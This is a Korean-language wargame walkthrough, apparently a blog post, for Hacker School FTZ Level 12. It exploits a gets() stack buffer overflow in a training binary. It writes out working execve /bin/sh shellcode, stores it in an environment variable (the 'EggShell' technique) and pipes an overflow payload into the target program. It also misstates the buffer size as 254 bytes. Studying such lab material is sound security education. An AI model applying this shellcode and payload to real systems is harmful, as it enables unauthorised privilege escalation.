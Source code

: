 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 12"
description: "Do you know the EggShell?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level12/1.jpg" | relative_url }}' alt='relative'>  

## 1) level12/it is like this 입력해 로그인  

<img data-action="zoom" src='{{ "assets/ftz/level12/2.png" | relative_url }}' alt='relative'>  

``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}
```

위의 코드를 보면 level11에서 공격했던 프로그램과 유사합니다.  

level11에서는 argv[1]에 들어 있는 값으로 BOF를 발생시켰다면,  
이번 문제에서는 사용자에게 입력을 받는 취약점을 이용해 BOF를 발생시킵니다.  

입력을 받는 경우 최대 입력 길이를 제한하지 않는 gets의 취약점을 이용한 문제입니다.  

## 2) 간단하게 해당 프로그램 살펴보기  

level11에서 봤던 프로그램과 비슷하기 때문에 간단하게 해당 프로그램을 살펴보겠습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/3.png" | relative_url }}' alt='relative'>  

ebp가 가리키는 주소에서 0x108(=264)만큼 떨어진 위치에 str 문자열 배열이 위치합니다.  
즉, str 배열의 시작 주소는 $ebp - 264라고 할 수 있습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/4.png" | relative_url }}' alt='relative'>  

get 함수를 call하는 0x080483d2(\*main+66)에 브레이크 포인트를 잡고 ebp 주소와 str 배열의 주소를 알아봤습니다.  
그리고 get 함수가 실행되고 난 뒤 str 배열에 입력된 값을 확인하기 위해 0x080483d7(\*main+71)에도 브레이크 포인트를 설정했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/5_1.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/5_2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/5_3.png" | relative_url }}' alt='relative'>  

gets 함수의 인자로 str 배열의 주소가 eax 레지스터에 담겨있기 때문에 레지스터 주소를 확인하여 ebp 주소와 eax 주소를 확인했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/6_1.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/6_2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/6_3.png" | relative_url }}' alt='relative'>  

str 배열의 주소와 ebp가 가리키는 주소가 프로그램을 새로 실행할 때마다 달라져도  
str 배열의 주소와 ebp가 가리키는 주소 사이에 0x108 byte 크기만큼 공간이 띄어진 것을 확인했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/7.png" | relative_url }}' alt='relative'>  

``` bash
r <<< $(python -c 'print "AAAA"\*64+"BBBB"+"CCCC"+"DDDD"+"EEEE"')
```

r은 프로그램을 run 한다는 뜻입니다. run을 하면서 사용자의 입력을 미리 입력 받고 있습니다.  

r 뒤에 '<<<'가 의미하는 것은 오른쪽에 단어를 왼쪽 프로그램에게 표준 입력으로 전달하겠다는 의미입니다.
즉, 표준 입력을 리다이렉션 하는 것입니다.  

``` bash
python -c [command]
```

python의 -c 옵션을 사용해 command로 주어지는 파이썬 문장을 실행시킵니다.  

그래서 총 264 byte 문자열("AAAA"\*64+"BBBB"+"CCCC"+"DDDD"+"EEEE")이 str 배열에 입력되었습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/8.png" | relative_url }}' alt='relative'>  

gets 함수 실행 전 str 배열에 들어있는 값과 gets 함수 실행 후 str 배열에 들어있는 값을 비교해보면  
gets 함수 실행 후 프로그램 실행 시 입력했던 264 byte 문자열이 입력되어 있는 것을 확인할 수 있습니다.  

gets 함수에서 최대 입력 문자열의 길이를 제한하지 않아 BOF가 발생했습니다.  
str 배열의 길이가 254 byte이지만 264 byte 문자열을 입력 받아 기존에 들어있던 SFP와 RET의 값을 지우고 사용자가 입력한 값으로 채웠습니다.  

return address를 의미하는 RET 위치에  
즉, 0x45454545가 들어있는 주소에 쉘코드가 저장되어 있는 주소를 입력해주면 BOF에 성공합니다.  

## 3) 쉘코드를 어디에 저장?  

위에서 프로그램을 여러 번 실행하면서 str 배열의 주소가 계속해서 바뀌는 것을 확인했습니다.  
str 배열의 주소를 RET 값으로 입력하면 쉘코드를 실행시킬 수 있지만  
str 배열의 주소가 계속해서 바뀌면 RET 주소의 값을 특정하기 어려워집니다.  

이는 메모리 상의 공격을 어렵게 하기 위해 스택, 힙, 라이브러리 등 주소를 랜덤으로 프로세스 주소 공간에 배치해 실행할 때마다 데이터의 주소가 변경되는 기법이 적용됐기 때문입니다.  
즉, ASLR 보호 기법이 적용되어 프로그램이 실행될 때마다 str 배열의 주소가 변경되었습니다.  

level11 문제에서도 ASLR 보호 기법이 적용되어 있어 RET 주소를 변경하며 반복 실행을 했었습니다.  
하지만 ASLR이 적용되어 있어 여러 번 실행해도 쉽게 풀 수 없을 걸로 예상되는데,,,  
그렇다면 ASLR을 우회할 수 있는 더 쉬운 방법은 없을까요?  

<p><a id="env"></a></p>
## 4) 환경 변수 사용하기  

환경 변수는 프로그램을 실행하기 위한 환경 정보를 담고 있습니다.  
> 환경 변수란? 
프로세스가 컴퓨터에서 동작하는 방식에 영향을 미치는 동적인 값들의 모임이다. 
즉, 쉘에서 실행되는 프로그램에 데이터를 전달하는 시스템 내에 저장된 변수이다.  
일반적으로 사용되는 환경변수로는 HOME, PATH, SHELL, USER, bASH, UID, USERNAME 등이 있다.  


환경 변수를 확인하기 위해 env 명령어를 사용하면 됩니다.  
echo $\[환경 변수 이름\]을 입력해 환경 변수 값을 출력하고,  
export \[환경 변수 이름\]을 입력해 환경 변수를 새로 만들거나 수정할 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/9.png" | relative_url }}' alt='relative'>  

'ls', 'pwd', 'cd' 명령어를 절대경로로 입력하지 않고도 사용가능한 이유도  
PATH라는 환경 변수에 명령어가 저장되어 있는 디렉토리 주소(/bin/)가 명시되어 있기 때문입니다.  

쉘코드를 환경 변수에 등록해놓고 RET 주소에 쉘코드가 저장되어 있는 환경 변수 주소를 입력하는 것을 EggShell이라고 합니다.  
일반적으로 입력의 크기 또는 버퍼의 크기가 쉘코드의 크기보다 작아서 쉘코드를 입력할 수 없을 때 사용하는 방법입니다.  

이번 문제에서는 입력의 크기도 제한이 없고 버퍼도 쉘코드의 크기보다 크지만 RET 주소를 정확하게 특정하기 위해 EggShell 방법을 사용할 것입니다.   
그래서 환경 변수 이름을 EGG로 지정하여 환경 변수에 쉘코드를 저장한 뒤, EGG 환경 변수가 저장된 위치를 확인했습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/10.png" | relative_url }}' alt='relative'>  

``` bash
export EGG=`python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

<img data-action="zoom" src='{{ "assets/ftz/level12/11.png" | relative_url }}' alt='relative'>  

EGG 환경 변수 값이 저장되어 있는 주소는 그림과 같고 해당 환경 변수에는 쉘코드가 저장되어 있습니다.  

## 5) BOF 시도하기  

쉘코드가 저장되어 있는 주소 위치도 찾았으니 BOF 공격을 시도하겠습니다.  

str 배열(254 bytes) + dummy (8 bytes) + SFP (4 bytes) = 268 bytes 이므로  
NOP으로 268 byte를 채우고 RET에 EGG 환경 변수 위치한 주소(=쉘코드가 저장된 주소)를 입력합니다.  

리틀 엔디언 방식으로 저장되기 때문에 0xbffffc88를 입력할 때는 \x88\xfc\xff\xbf로 입력해야 합니다.  

표준 입력을 받는 부분(gets)에 대한 내용을 프로그램 실행 시 입력하기 위해 파이프라인('\|')을 사용합니다.   
이 때는 리다이렉션('>')을 사용하면 안 됩니다.  
만약 리다이렉션으로 입력을 넘겨준다면 입력한 내용이 파일에 저장됩니다. attackme 프로그램의 내용은 다 사라지고 입력된 내용만이 저장될 것입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/12.png" | relative_url }}' alt='relative'>  

리다이렉션을 사용했더니 실행프로그램인 am의 사이즈가 변경되는 것을 확인할 수 있습니다.  
해당 프로그램은 바이너리 파일이 아니라며 실행되지 않습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/13.png" | relative_url }}' alt='relative'>  

실행하는 프로그램에서 표준 입력 받는 부분을 실행시 입력하기 위해선 파이프라인('|')을 사용해야 합니다.  

``` bash
(python -c 'print "\x90"*268+"\x88\xfc\xff\xbf"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level12/14.png" | relative_url }}' alt='relative'>  

환경 변수를 이용하니 여러 번 반복 수행할 필요없이 깔끔하게 풀 수 있었습니다.  